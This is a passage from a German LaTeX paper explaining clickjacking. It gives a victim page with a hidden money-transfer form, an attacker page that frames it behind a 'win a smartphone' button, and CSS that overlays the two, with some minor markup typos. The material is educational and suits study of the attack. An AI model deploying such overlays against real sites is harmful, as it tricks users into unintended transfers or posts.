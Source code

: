Clickjacking nennt man den Versuch, einen Nutzer dazu zu bringen, auf schädliche Links zu klicken, von denen man zunächst denkt, dass sich dahinter scheinbar harmlose Videos, Bilder oder Artikel verbergen. Über einen ‚überlagerten‘ Link können Nutzer auf infizierte Webseiten oder Spams geleitet werden. Durch Clickjacking kann man Nutzer sogar dazu motivieren, Werbung oder schädliche Inhalte auf seiner Social-Media-Seite zu posten, ohne sich dem bewusst zu sein\cite{cj16}.\\

\textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\

Bei diesem HTML-Code gibt es nur ein Formular mit einem \texttt{Absenden}-Button. Durch das Verwenden dieses Buttons wird die Aktion \texttt{dotransfer} vorgenommen, die dazu führt, dass der Benutzer zur Anschauung weitergeleitet wird\cite{cjd13}.\\


\begin{LaTeXCode}[caption={Opferseite},captionpos=b, label=LaTeXCode:cj1][numbers=none]
<html>
	<head>
	<title>Opferseite</title>
	</head>
	<body>
	<form action="/dotransfer" method="post" />
		<input type="hidden" value="1000" name="amount" />
		<input type="hidden" value="[RND-ID]" name="csrftoken" />
		<input type="submit" value="submit" />
	</form>
	</body>
</html>
\end{LaTeXCode}

Durch die weiter unten verfassten HTML-Codes wird eine zweite Seite erstellt, die für die Einbindung der ersten Seite sorgt\cite{cjd13}:\\

\begin{LaTeXCode}[caption={Hackseite},captionpos=b, label=LaTeXCode:cj2][numbers=none]
<html>
	<head>
	<title>Hack</title>
	</head>
	<body>
		<button id="clickme"/>Gewinne ein Smartphone</button>
		<iframe src="http://opferseite.de/inittransfer.html" id="frame"/><iframe>
	</body>
</html>
\end{LaTeXCode}

Durch CSS (Cascading Style Sheets) ist es möglich das Iframe semitransparent zu gestalten, und den \texttt{clickme}-Button direkt über den \texttt{Absenden}-Button des Iframes zu legen\cite{cjd13}.\\

\begin{LaTeXCode}[caption={CSS},captionpos=b, label=LaTeXCode:cj3][numbers=none]
#clickme {
	position:absolute;
	top:0px;
	left:0px;
	color: #ff0000;
}

#frame {
	width: 100%
	height: 100%
	opacity: 0.5;
}
\end{LaTeXCode}

